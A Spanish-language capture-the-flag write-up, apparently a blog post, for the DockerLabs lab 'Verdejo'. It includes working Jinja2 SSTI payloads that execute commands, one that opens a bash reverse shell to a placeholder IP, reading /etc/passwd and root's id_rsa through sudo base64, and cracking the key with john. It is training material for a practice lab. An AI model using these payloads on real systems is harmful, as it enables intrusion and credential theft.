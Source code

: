 ```yaml
---
title: Verdejo - DockerLabs
published: true
categories: DockerLabs
---
```


| OS    | Dificultad | Creator        |
| ----- | ---------- | -------------- |
| Linux | Fácil      | TheHackersLabs |

## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/fbb886ed-bfaf-40dd-8cab-fdd31f94cc2a)


`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
- `-p-` - Búsqueda de puertos abiertos
- `--open` - Enumera los puertos abiertos
- `-sS` - Es un modo de escaneo rápido
- `-sC-` - Que use un conjunto de scripts de reconocimiento
- `-sV` - Que encuentre la version del servicio abirto
- `--min-rate=5000` - Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- `-n` - No hace resolución DNS
- `-Pn` - No hace ping
- `-vvv` - Muestra en pantalla a medida que encuentra puertos (Verbose)

Vemos que esta abierto el puerto 22 `SSH`, el puerto 80 `HTTP` y el puerto 8089 

## Enumeración Web
Si accedemos a la pagina web por el puerto 80 vemos lo siguiente, es la página por default de Apache2.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/3bfd1343-fd6f-4e0a-ba4b-28d055387fdc)

Usamos `Gobuster` para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php`
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.20.10.5/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/88f7a6f5-9fe3-4c45-8420-584d2ff5265c)

Gobuster no ha encontrado nada

## Puerto 8089

Vamos acceder al puerto 8089 a ver que hay alojado ahí.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/f60246ca-b7b0-416a-9af3-194dc4dfaa80)

Nos encontramos un cuadro donde podemos insertar texto y un botón, vamos a investigar.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/3d36524a-5a96-4f5e-af24-182139acb128)


![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/6a2c65f8-9885-41e0-b4ef-0c7a2c11237f)

Vamos a intentar ver si la web es vulnerable a un HTML Injection

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/2aae1f4e-373e-4cb2-ade2-a6b1d2f1b330)

Efectivamente, ahora vamos a probar con una inyección SSTI para ver si es vulnerable.


Vamos a probar con la siguiente instrucción para ver si es vulnerable

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/2a8dd831-a414-4992-9739-db20ada43c5b)

Perfecto, vemos que si que es vulnerable a SSTI ahora vamos a intentar enumerar el /etc/passwd para ver posibles usuarios.

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /etc/passwd').read() }}
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/fa03ed2a-b9ad-4e7e-b661-878c819cf73b)

Vemos únicamente al usuario verde y cuando hemos ejecutado el comando *id* era el usuario verde que ejecutaba dicho comando entonces lo que haremos sera mandarnos una reverse shell a nuestro equipo para conectarnos a la maquina.

## Intrusión

Vamos a ejecutar este comando en el campo donde podemos escribir, esto nos mandara una reverse shell a nuestro ordenador que tendremos que estar por escucha con Netcat.

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"').read() }}
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/7626a60a-2096-4297-8c00-abead24a6b64)
![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/8074ecb9-0bd0-4654-b5ac-9309729a52e6)

## Escalada de privilegios

Ahora vamos a buscar alguna forma para poder escalar privilegios al usuario ROOT.

Si hacemos el comando *sudo -l* vemos que podemos ejecutar el binario base64 como root.

En GTFobins vemos que podemos usar el base64 para descodificar algún tipo de archivo.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/4e239ed6-7fc9-48ab-bad8-a91cd9b20653)

Vamos a buscar por el sistema a ver si encontramos algo interesante.

Nos damos cuenta que con el binario Base64, podemos hacer bypass y ver archivos del sistema vamos a ver un ejemplo.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/eb8cf99d-f020-48be-b0a7-a7f404c9375c)
![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/a2200d16-0bec-45a5-a69a-4b4d1473db4c)

Podríamos hacer una copia de el /passwd y del /shadow una vez esto podríamos hacer el parámetro unshadow y luego con jhon desencriptar la contraseña, yo lo he probado y no me a funcionado así que al tener permisos de lectura del sistema vamos a ver si podemos leer el id_rsa del sistema del usuario ROOT.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/2795858b-8759-4525-98d3-636797951372)

Si que lo podemos leer vamos a copiarnos esto a nuestro equipo y vamos a desencriptarlo.

Para hacer esto lo que haremos sera, por una parte crear un archivo en nuestra maquina atacante llamada id_rsa y pegaremos el contenido que hemos encontrado en la maquina victima.

Una vez echo esto haremos el siguiente comando:

``` bash
ssh2john [archivo id_rsa] > hash
```

Esto nos generara un archivo con nombre hash, por ultimo haremos el siguiente comando para craquear la contraseña.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt [hash]
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/44f5795f-a5f9-4d78-8c4c-0184857b5e6f)

Tenemos la contraseña de ROOT vamos a intentar conectarnos vía SSH con el usuario ROOT a través del id_rsa, pero antes hemos de cambiar el permiso del id_rsa esto lo hacemos de la siguiente forma.

```bash
chmod 600 id_rsa
```

Ahora vamos a conectarnos con el siguiente comando

```bash
ssh -i id_rsa root@172.17.0.2
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/a0e60088-1ef0-45fa-b689-6c27dfe888ae)

Ya somos ROOT

